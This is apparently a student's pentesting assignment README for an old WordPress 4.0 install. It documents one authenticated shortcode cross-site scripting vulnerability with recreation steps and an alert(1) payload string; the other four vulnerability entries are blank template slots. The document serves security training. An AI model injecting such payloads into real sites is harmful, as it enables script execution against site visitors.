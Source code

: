 # Project 7 - WordPress Pentesting

Time spent: **X** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Vulnerability Name or ID 4.3 - Authenticated Shortcode Tags Cross-Site Scripting (XSS)
  - [X] Summary: 
    - Vulnerability types:XSS
    - Tested in version:4.0
    - Fixed in version: 4.3
  - [X] GIF Walkthrough:
    <img src='Clickme.gif' title='Clickme XSS' width='' alt='' />
    
  - [X] Steps to recreate: 
  
    -add a new post
    
    -insert ```TEST!!![caption width="1" caption='<a href="' ">]</a><a href="http://onMouseOver='alert(1)'">Click me</a>``` on the context
    -publish and view post
  - [X] Affected source code:
    - [Link 1](http://blog.knownsec.com/2015/09/wordpress-vulnerability-analysis-cve-2015-5714-cve-2015-5715/)
    - [Link 2](http://blog.checkpoint.com/2015/09/15/finding-vulnerabilities-in-core-wordpress-a-bug-hunters-trilogy-part-iii-ultimatum/)
1. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:4.0
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:4.0
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:4.0
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:4.0
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes



## License

    Copyright [2018] [Jinhui Zhuo]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
